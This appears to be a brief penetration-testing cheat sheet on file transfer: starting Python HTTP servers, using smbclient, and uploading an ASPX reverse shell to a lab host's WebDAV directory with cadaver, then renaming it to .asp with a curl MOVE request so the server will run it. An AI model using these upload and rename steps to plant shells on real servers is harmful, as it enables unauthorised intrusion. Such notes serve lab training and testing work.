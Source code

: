 # File Transfer


### HTTP Server

> python -m SimpleHTTPServer 8000

> python3 -m http.server 8000


### SMB File Upload

**Method 1: Cadaver**

```
cadaver http://10.11.1.13/scripts/
put /root/Desktop/shellLER/phpReverseShell/aspunstage.aspx
```

**Method 2: Smbclient**

```
$ smbclient //server/share -c 'cd c:/remote/path ; put local-file'
```
Second example
```
smbclient -W ENGR_STUDENT -U EngrID //hnas.engr.uconn.edu/EngrGroupMixed
get <somethingRecieve>.tgz
put <somethingSend>.tgz
```

**Method 3: CURL**

Change file name with MOVE method. aspx -> asp

```
curl -X MOVE --header    "Destination:http://10.11.1.13/scripts/aspunstaged.asp" "http://10.11.1.13/scripts/aspunstaged.aspx"
```
